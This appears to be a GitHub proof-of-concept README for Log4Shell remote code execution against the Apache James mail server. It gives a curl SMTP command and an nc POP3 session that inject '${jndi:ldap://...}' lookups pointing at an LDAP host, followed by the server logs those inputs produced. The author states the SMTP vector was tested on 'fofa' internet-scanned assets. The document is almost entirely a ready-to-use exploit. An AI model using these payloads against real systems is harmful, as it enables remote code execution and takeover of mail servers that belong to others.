

# Apache James log4j RCE

## Poc

- SMTP

```
echo "111" > email.txt
curl --url "smtp://localhost" --user "test:test" --mail-from '${jndi:ldap://localhost:1270/a}@gmail.com' --mail-rcpt 'test' --upload-file email.txt 
```

SMTP Logs

```
13-Dec-2021 11:28:58.637 INFO [smtpserver-executor-22] org.apache.james.protocols.smtp.core.MailCmdHandler.doMAILFilter:208 - Error parsing sender address: <${jndi:ldap://localhost:1270/a}@gmail.com>
javax.mail.internet.AddressException: Invalid character in local-part (user account) at position 7 in '${jndi:ldap://localhost:1270/a}@gmail.com'
	at org.apache.james.core.MailAddress.parseUnquotedLocalPart(MailAddress.java:522) ~[james-core-3.6.0.jar:3.6.0]
	at org.apache.james.core.MailAddress.parseUnquotedLocalPartOrThrowException(MailAddress.java:248) ~[james-core-3.6.0.jar:3.6.0]
	at org.apache.james.core.MailAddress.<init>(MailAddress.java:189) ~[james-core-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.smtp.core.MailCmdHandler.toMaybeSender(MailCmdHandler.java:224) ~[protocols-smtp-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.smtp.core.MailCmdHandler.doMAILFilter(MailCmdHandler.java:204) [protocols-smtp-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.smtp.core.MailCmdHandler.doFilterChecks(MailCmdHandler.java:130) [protocols-smtp-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.smtp.core.AbstractHookableCmdHandler.onCommand(AbstractHookableCmdHandler.java:72) [protocols-smtp-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.smtp.core.MailCmdHandler.onCommand(MailCmdHandler.java:86) [protocols-smtp-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.smtp.core.MailCmdHandler.onCommand(MailCmdHandler.java:53) [protocols-smtp-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.api.handler.CommandDispatcher.dispatchCommandHandlers(CommandDispatcher.java:162) [protocols-api-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.api.handler.CommandDispatcher.onLine(CommandDispatcher.java:143) [protocols-api-3.6.0.jar:3.6.0]
	at org.apache.james.protocols.netty.BasicChannelUpstreamHandler.messageReceived(BasicChannelUpstreamHandler.java:152) [protocols-netty-3.6.0.jar:3.6.0]
	at org.apache.james.smtpserver.netty.SMTPChannelUpstreamHandler.messageReceived(SMTPChannelUpstreamHandler.java:61) [james-server-protocols-smtp-3.6.0.jar:3.6.0]
	at org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.channel.SimpleChannelUpstreamHandler.messageReceived(SimpleChannelUpstreamHandler.java:124) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.channel.DefaultChannelPipeline$DefaultChannelHandlerContext.sendUpstream(DefaultChannelPipeline.java:791) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.handler.execution.ChannelUpstreamEventRunnable.doRun(ChannelUpstreamEventRunnable.java:43) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.handler.execution.ChannelEventRunnable.run(ChannelEventRunnable.java:67) [netty-3.10.6.Final.jar:?]
	at org.jboss.netty.handler.execution.OrderedMemoryAwareThreadPoolExecutor$ChildExecutor.run(OrderedMemoryAwareThreadPoolExecutor.java:314) [netty-3.10.6.Final.jar:?]
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128) [?:?]
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628) [?:?]
	at java.lang.Thread.run(Thread.java:829) [?:?]
```

- POP3

```
nc localhost 110
+OK <-695462989.1639426418187@ubuntu> POP3 server (JAMES POP3 Server ) ready 
USER ${jndi:ldap://10.0.0.6:1270/abc}
+OK
PASS lol
```

POP3 Logs

```
13-Dec-2021 12:14:04.880 INFO [pop3server-executor-81] org.apache.james.user.lib.UsersRepositoryImpl.lambda$test$1:130 - Could not retrieve user Username{localPart=${jndi:ldap://10.0.0.6:1270/abc}, domainPart=Optional.empty}. Password is unverified.
13-Dec-2021 12:18:03.644 INFO [pop3server-executor-81] org.apache.james.pop3server.core.PassCmdHandler.auth:105 - Bad credential supplied for ${jndi:ldap://10.0.0.6:1270/abc} with remote address localhost/127.0.0.1
```

I've tested the SMTP with fofa assets.(James Official Docker runs on log4j 1.x)

